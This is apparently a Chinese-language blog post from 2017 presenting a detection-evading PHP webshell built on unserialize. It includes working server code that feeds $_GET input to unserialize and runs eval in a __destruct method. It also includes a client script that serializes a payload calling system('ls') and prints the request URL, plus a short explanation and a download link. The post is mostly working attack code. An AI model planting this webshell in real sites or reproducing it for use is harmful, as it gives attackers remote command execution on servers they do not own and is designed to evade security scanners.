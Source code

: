 ```yaml
---
layout:     post
title:      unserialize免杀webshell
date:       2017-04-18
summary:    unserialize免杀webshell
categories: web
tags:
 - unserialize
 - php
 - webshell
---
```


### php的unserialize函数

```
php的unserialize反序列化函数可以将反序列化后的结果还原成数字,字符,数组,对象等类型,如果还原后的结果是对象且这个
对象对应的类有__wakeup,__destruct等函数,那么在unserialize函数执行后将执行对应的函数(__wakeup,__destruct等)

refer:
http://www.91ri.org/3960.html
https://www.owasp.org/index.php/PHP_Object_Injection
```

### 利用unserialize构造webshell

#### 服务端[webshell]

```
<?php

class foo{
    public $data="text";
        function __destruct()
        {
                eval($this->data);
                    
        }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

#### 客户端[相当于菜刀]

```
<?php

class foo{
    #public $data="phpinfo();";
        public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

#### 理解

```
服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时
,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存
的foo类模板的__wakeup,__destruct等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.
```

本文代码对应下载链接如下
<a href="https://github.com/3xp10it/xwebshell/tree/master/unserializePHP">download</a>
